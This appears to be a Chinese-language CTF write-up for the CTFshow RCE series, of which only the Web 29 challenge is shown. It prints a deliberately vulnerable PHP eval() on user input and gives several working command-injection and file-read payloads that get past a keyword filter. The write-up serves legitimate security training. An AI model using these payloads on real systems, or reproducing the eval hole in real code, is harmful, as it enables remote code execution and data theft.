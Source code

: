 # CTFshow RCE

**题目范围：Web29 - Web77 | Web118 - Web124**

参考：[命令执行的解题技巧](https://blog.csdn.net/qq_53058639/article/details/134156671)

参考：[无参数读文件和RCE总结](https://blog.csdn.net/qq_38154820/article/details/107171940)





## Web 29

代码如下：

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
}else{
    highlight_file(__FILE__);
}
?>
```

首先先说一个注意点：`?c=system('ls');`一定不要少了后面的分号，eval内执行的是php代码，必须以分号结尾

有一个Linux命令：`tac`，也就是反向的cat，作用也是反向输出内容，但是不知道为什么，这个题里面使用cat显示不出任何内容，但是tac就可以。

绕过cat使用`tac more less head tac tail nl od(二进制查看) vi vim sort uniq`



**原因：**`?c=system("cat fla*.php");`页面不会直接显示flag，可以查看网页源代码获取flag，或者：`c=system("cat fla*.php|tac"); `  没什么意义就是了，

> **解释：**
>
> 1. `cat fla*.php`: 这部分命令使用`cat`命令来将以`fla`开头且以`.php`结尾的所有文件内容输出到标准输出（通常是显示在终端上）。
>
> 2. `|`: 这是一个管道符号，它将`cat`命令的输出作为`|`后面命令的输入。
>
> 3. `tac`: 这个命令是`cat`的逆序，它会将输入的文本逆序输出。
>

因为只过滤了“flag”。

所以我们可以：`?c=system("tac fla*.php"); `

或者：`?c=eval($_GET["code"]);&code=system("tac flag.php");`

或者：`c=system("cp fl*g.php a.txt");`然后访问/a.txt

或者：`?c=highlight_file(next(array_reverse(scandir(".")))); `
